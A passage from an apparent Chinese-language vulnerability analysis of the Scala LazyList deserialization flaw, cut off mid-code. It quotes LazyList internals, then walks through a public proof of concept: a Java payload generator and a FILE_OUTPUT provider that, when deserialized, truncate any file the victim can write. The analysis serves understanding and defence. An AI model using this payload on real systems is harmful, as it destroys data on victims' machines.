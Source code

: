 ```scala
      throw new RuntimeException("self-referential LazyList or a derivation thereof has no more elements")
    }
    midEvaluation = true
    val res = try lazyState() finally midEvaluation = false
    // if we set it to `true` before evaluating, we may infinite loop
    // if something expects `state` to already be evaluated
    stateEvaluated = true
    lazyState = null // allow GC
    res
  }
}
```

那么，如果在创建`LazyList`对象时给其传任意一个无参匿名函数，岂不是可以实现任意无参匿名函数调用。

#### 3.2.4 LazyList反序列化漏洞利用

在知道了漏洞的成因后，如何寻找可利用的匿名函数是个难点。github中流传着该漏洞的POC。对该`POC`代码进行分析，入口点为：

```java
package poc.cve.lazylist.payload;
import poc.cve.lazylist.function0.DefaultProviders;
import java.io.IOException;
public class Main {
   // 这是一个进行任意文件擦除的例子
    public static void main(String[] args) throws IOException {
      // 要被擦除的文件路径
        String fileToTruncate = args[0];
        // 是否进行追加
        boolean append = Boolean.parseBoolean(args[1]);
      // 创建Payload生成器对象
        PayloadGenerator payloadGenerator = new LazyList(DefaultProviders.FILE_OUTPUT);
        // 生成Payload
        byte[] payload = payloadGenerator.generatePayload(fileToTruncate, append);

        System.out.write(payload);
    }
}
```

在创建`payloadGenerator`对象时使用的`DefaultProviders.FILE_OUTPUT`是一个`Function`对象

```java
public static final Function<Object[], Function0<Object>> FILE_OUTPUT = DefaultProviders::fileOutput;
/**
  * When invoked, instantiates new FileOutputStream(String fileName,  boolean append) with controlled parameters is
  * called. If append is false, right after creating, specified file  is truncated (written with 0). Which means you can
  * truncate any file on victim's machine which victim has write access to.
  * @param args args[0]: String, file name to truncate; args[1]:  boolean, whether to append or overwrite.
  * @return Function0 instance which can overwrite any file with  zero when Object apply() is invoked
  */
    public static Function0<Object> fileOutput(Object[] args) {
      // 文件路径
        String fileToTruncate = (String) args[0];
      // 是否追加
        boolean append = (Boolean) args[1];
        // 通过反射的方式获得scala.sys.process.ProcessBuilderImpl$FileO utput$$anonfun$$lessinit$greater$3 类的实例
        // 之所以通过反射的方式获取因为ProcessBuilderImpl被private修饰
```